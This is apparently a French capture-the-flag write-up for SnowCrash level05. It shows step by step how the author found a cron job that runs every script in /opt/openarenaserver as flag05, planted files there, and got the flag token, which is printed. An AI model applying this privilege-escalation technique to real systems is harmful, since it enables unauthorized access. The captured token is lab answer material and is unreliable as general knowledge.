 # level05
## Observations

Dans ce level, nous semblons assez démuni, nous n'avons rien dans le home directory,
j'ai même pu verifier les fichiers de configuration locaux (`.bashrc`, `.profile`, `.bash_logout`).
Rien à exploiter.

Je décide ensuite de chercher sur le disque entier des fichiers appartenant à notre
utilisateur `level05`:

Avec la commande find:
```sh
find  / -user level05 -group -level05 2>/dev/null
```
Ici, rien de concluant.

Puis dans le doute, un fichier contenant le nom de l'utilisateur dans son nom:
```sh
level05@SnowCrash:~$ find / 2>/dev/null | grep level05
/etc/apache2/sites-available/level05.conf
/etc/apache2/sites-enabled/level05.conf
/var/mail/level05
/rofs/etc/apache2/sites-available/level05.conf
/rofs/etc/apache2/sites-enabled/level05.conf
/rofs/var/mail/level05
```

On a plusieurs fichiers, de  fichiers de configuration d'un serveur Apache, en l'observant,
j'ai l'impression qu'il s'agit de la configuration du serveur  HTTP du level précédent.

Mais on a aussi une boite mail local sous `/var/mail`.

En affichant ce mail: 
```sh
level05@SnowCrash:~$ cat /rofs/var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
level05@SnowCrash:~$ cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

Le mail contient une instruction, `cron` à priori.
La commande est la suivante:
`su -c "sh /usr/sbin/openarenaserver" - flag05`

La partie `su -c <commande> - <user>`, nous permet de lancer une `commande`, avec
un `user`.
Cette `commande` fait appel à un executable: `/usr/sbin/openarenaserver`
De plus on notera la présence d'un `+`, nous indiquant la présence d'ACLs pour:
- `/var/mail/level05` nous donne les droits 'rw-' pour l'utilisateur `level05` (commande `getfacl`)
- `/usr/sbin/openarenaserver`, nous donne les droits 'rwx' pour l'utilisateur `level05` (commande `getfacl`)
> **Note:** Pour plus d'info sur les ACL, la [doc ubuntu](https://doc.ubuntu-fr.org/acl) est très complète.

On notera en plus que le priopriétaire de l'executable, `/usr/sbin/openarenaserver` est flag05
Il s'agit d'un script shell:
```sh
level05@SnowCrash:~$ cat -n /usr/sbin/openarenaserver
     1	#!/bin/sh
     2
     3	for i in /opt/openarenaserver/* ; do
     4		(ulimit -t 5; bash -x "$i")
     5		rm -f "$i"
     6	done
```

Ce script est construit de la façon suivante:
- ligne 1, le _sha-bang_, nous confirme l'utilisation de `bash`.
- ligne 3 à 6:
    - le programme boucle sur l'ensemble des fichiers contenus dans: `/opt/openarenaserver/`
    - Avec chaque fichier, il execute le contenue ce dernier (`bash -x`, cf `man bash`)
    - il limite le temps d'exeution de la commande à 5 secondes (`ulimit -t 5`, cf [ce lien](https://ss64.com/bash/ulimit.html))
    - enfin il supprime le dit fichier: `rm -f`

## Résolution
Ainsi pour résoudre ce level, il me faudra créer un fichier `getflag` dans, `/opt/openarenaserver/`.
Qui devra être executé par `flag05` (propriuétaire de l'executable).

Par acquis de conscience, je vais commencé par créer un fichier `id`.

```sh
level05@SnowCrash:~$ cat > /opt/openarenaserver/id
id
level05@SnowCrash:~$ /usr/sbin/openarenaserver
bash: /usr/sbin/openarenaserver: Permission denied
```

Premier echec, lançons le comme dans le mail:
```sh
level05@SnowCrash:~$ su -c "sh /usr/sbin/openarenaserver" - flag05
Password:
```

On nous demande un password, essayons sans le changement d'utilisateur, commande `su`:
```sh
level05@SnowCrash:~$ cat > /opt/openarenaserver/id
id
level05@SnowCrash:~$ sh /usr/sbin/openarenaserver
+ id
uid=2005(level05) gid=2005(level05) groups=2005(level05),100(users)
```

On a un problème à ce niveau, la commande est lancé avec l'utilisateur `level05`,
contrairement à ce que je pensais.

Je vais essayé d'activer l'instruction cron, contenue dans le mail grâce à la commande
crontab (pour avoir une sortie il faut que je pense à rediriger le flux).

```sh
level05@SnowCrash:~$ cat > /opt/openarenaserver/id
id > /tmp/out.log
level05@SnowCrash:~$ crontab /var/mail/level05
level05@SnowCrash:~$ crontab -l
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

Il faut penser à éditer l'instruction cron avec `crontab -e` pour s'epargner l'attente:
```sh
level05@SnowCrash:~$ crontab -e
touch: cannot touch `/home/user/level05/.selected_editor': Permission denied
crontab: installing new crontab
level05@SnowCrash:~$ crontab -l
* * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

En moins d'une minute, on devrait pouvoir afficher nos logs:
```sh
level05@SnowCrash:~$ cat /tmp/out.log
uid=3005(flag05) gid=3005(flag05) groups=3005(flag05),1001(flag)
```

On recommence la procédure pour `getflag`:
```sh
level05@SnowCrash:~$ crontab -r
level05@SnowCrash:~$ cat > /opt/openarenaserver/getflag
getflag > /tmp/flag.out
level05@SnowCrash:~$ crontab /var/mail/level05 
level05@SnowCrash:~$ crontab -e
touch: cannot touch `/home/user/level05/.selected_editor': Permission denied
crontab: installing new crontab
level05@SnowCrash:~$ crontab -l
* * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
level05@SnowCrash:~$ cat /tmp/flag.out
Check flag.Here is your token : viuaaale9huek52boumoomioc
```

On obtient le flag, je peux passer au level suivant.
